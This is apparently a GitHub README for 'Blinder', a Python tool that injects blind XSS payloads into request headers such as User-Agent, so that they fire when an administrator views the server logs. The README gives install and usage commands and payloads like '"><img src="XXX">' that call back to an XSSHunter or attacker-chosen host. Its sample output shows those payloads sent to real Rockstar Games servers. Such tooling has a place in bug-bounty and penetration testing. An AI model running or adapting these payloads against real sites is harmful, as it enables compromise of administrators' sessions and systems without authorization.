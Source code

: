 # Blinder
- A Tool Written In Python3 To Send Blind Payloads On The Request Headers Maybe Stored On The Logs

## Description
- That's a New Version Of Blinder You Can Use To Automate Sending Payloads Into URLs With a Fast Way. It Basicly Uses The Payload You Provide To Send It On The Value Of The *User-Agent* Header To Inject The Payload Into The Server Logs If The Admin Can View It. In This Case You Should Receive An Alert On Your XSSHunter/Bin. That's Just It.

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

### What's New?
- Threading To Improve The Script Speed.
- Using Your Own External Bin Instead Of Just Using XSSHunter
- Using Your Own Payloads That Could Be Used To Inject Other Payloads For Other Issues
- Been Able To Allow/Disallow Redirects With Requests
- You Can Use Multi Payloads With The Requests And Select The Split Char
- Been Able To Select Your Own Header On The Requests That Will Be Sent.
- Selecting Your Own Replace String That Will Be Replaced To Your XSSHunter/Bin
- Cleaner Code!

### How To Use:
- For Basic Usage With a Basic Payload You Can Just The Script Using This:

```
python3 Blinder.py -f URLs.txt -u hacker -r allow
```

- The Script Can't Run Without Getting The Redirection Rule. You Can Select Between `allow` and `deny` That Chooses If The Redirections Will Be Followed In This Case Or Not.

- To Add Your Own Payload You Have To Use `XXX` On Your Payload So It Could Be Replaced With The XSSHunter/ExternalBin. For Example If You Want To Create Your Own Payload It Will Look Like This:

```
python3 Blinder.py -f URLs.txt -u hacker -r allow -p '"><img src="XXX">'
```

- Make Sure The `XXX` In This Case Are Able In a Upper Case.

- To Use Your Own ExternalBin Instead Of XSSHunter You Have To Use `-b` Option. With Your External Host Including The Protocol. For Example

```
python3 Blinder.py -f URLs.txt -b https://www.example.com/ -r allow -p '"><img src="XXX">'
```

- If You Didn't Add a Payload In Any Cases, Blinder Will Auto Set The Default XSSHunter XSS Payload To Use It.

- You Can Use Multi Payloads With The Requests By Adding a Split Char Between Them You Can Select. If You Didn't Add The Split Char The Program Will Auto Set It Into `,` In This Case. To Use Multi Payloads It Will Look Like This

```
python3 Blinder.py -f URLs.txt -u hacker -r allow -p '"><img src="XXX">','"><iframe src="XXX">' -s ,
```
- The Output Will Be Something Like That In This Case.

```
Request Has Been Sent To: https://scapi.rockstargames.com, Status-Code: 403 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://scapi.rockstargames.com, Status-Code: 403 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: http://scapi.rockstargames.com, Status-Code: 301 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: http://scapi.rockstargames.com, Status-Code: 301 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://warehouse.rockstargames.com, Status-Code: 302 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://warehouse.rockstargames.com, Status-Code: 302 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
```

### Something Isn't Working Or You Want To Improve Something?
- Then Please Open an Issue With It Or You Can Fork The Project Then Create a Pull Request.
